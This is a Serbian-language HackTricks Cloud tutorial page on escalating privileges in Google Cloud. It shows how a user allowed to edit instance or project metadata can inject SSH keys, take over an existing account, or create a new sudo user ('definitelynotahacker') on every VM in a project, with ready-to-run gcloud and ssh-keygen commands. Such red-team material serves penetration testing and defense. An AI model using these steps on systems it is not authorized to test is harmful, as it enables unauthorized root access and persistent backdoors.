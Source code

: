 # GCP - Dodavanje prilagođenih SSH metapodataka

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite svoju **kompaniju reklamiranu na HackTricks-u** ili da **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJAVU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**Porodicu PEASS**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## Modifikacija metapodataka <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Modifikacija metapodataka na instanci može dovesti do **značajnih sigurnosnih rizika ako napadač stekne potrebne dozvole**.

### **Uključivanje SSH ključeva u prilagođene metapodatke**

Na GCP-u, **Linux sistemi** često izvršavaju skripte iz [Python Linux Guest Environment for Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). Ključna komponenta ovoga je [accounts daemon](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), koji je dizajniran da **redovno proverava** krajnju tačku metapodataka instance radi **ažuriranja autorizovanih SSH javnih ključeva**.

Stoga, ako napadač može da modifikuje prilagođene metapodatke, može naterati daemon da pronađe novi javni ključ, koji će biti obrađen i **integriran u lokalni sistem**. Ključ će biti dodat u datoteku `~/.ssh/authorized_keys` postojećeg korisnika ili potencijalno kreiranje novog korisnika sa `sudo` privilegijama, zavisno od formata ključa. I napadač će moći da kompromituje host.

### **Dodavanje SSH ključa postojećem privilegovanom korisniku**

1. **Pregled postojećih SSH ključeva na Instanci:**
- Izvršite komandu za opis instance i njenih metapodataka kako biste locirali postojeće SSH ključeve. Relevantni deo u izlazu će biti pod `metadata`, posebno ključ `ssh-keys`.
```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
- Obratite pažnju na format SSH ključeva: korisničko ime ide ispred ključa, razdvojeno dvotačkom.

2. **Priprema tekstualne datoteke za SSH ključ metapodatke:**
- Sačuvajte detalje korisničkih imena i njihovih odgovarajućih SSH ključeva u tekstualnu datoteku nazvanu `meta.txt`. Ovo je bitno za čuvanje postojećih ključeva dok dodajete nove.

3. **Generisanje novog SSH ključa za ciljanog korisnika (`alice` u ovom primeru):**
- Koristite `ssh-keygen` komandu za generisanje novog SSH ključa, obezbeđujući da polje komentara (`-C`) odgovara ciljnom korisničkom imenu.
```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
- Dodajte novi javni ključ u `meta.txt`, oponašajući format koji se nalazi u metapodacima instance.

4. **Ažuriranje metapodataka SSH ključa instance:**
- Primenite ažurirane metapodatke SSH ključa na instanci koristeći `gcloud compute instances add-metadata` komandu.
```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```

5. **Pristupanje Instanci Koristeći Novi SSH Ključ:**
- Povežite se sa instancom putem SSH koristeći novi ključ, pristupajući shell-u u kontekstu ciljnog korisnika (`alice` u ovom primeru).
```bash
ssh -i ./key alice@localhost
sudo id
```

### **Kreiranje novog privilegovanog korisnika i dodavanje SSH ključa**

Ako nije pronađen nijedan zanimljiv korisnik, moguće je kreirati novog koji će dobiti `sudo` privilegije:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
### SSH ključevi na nivou projekta <a href="#sshing-around" id="sshing-around"></a>

Moguće je proširiti pristup SSH-u na više virtuelnih mašina (VMs) u cloud okruženju **primenom SSH ključeva na nivou projekta**. Ovaj pristup omogućava SSH pristup bilo kojoj instanci unutar projekta koja nije eksplicitno blokirala projektne SSH ključeve. Evo sažetog vodiča:

1. **Primenite SSH ključeve na nivou projekta:**
- Koristite `gcloud compute project-info add-metadata` komandu da dodate SSH ključeve iz `meta.txt` u metapodatke projekta. Ova akcija osigurava da se SSH ključevi prepoznaju na svim VMs u projektu, osim ako je VM omogućio opciju "Blokiraj projektne SSH ključeve".
```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **SSH pristup instancama koristeći projektne ključeve:**
- Sa projektim SSH ključevima na mestu, možete se SSH-ovati u bilo koju instancu unutar projekta. Instance koje ne blokiraju projektne ključeve će prihvatiti SSH ključ, omogućavajući pristup.
- Direktan način za SSH-ovanje u instancu je korišćenjem `gcloud compute ssh [INSTANCE]` komande. Ova komanda koristi vaše trenutno korisničko ime i SSH ključeve postavljene na nivou projekta kako bi pokušala pristup.

# Reference
* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

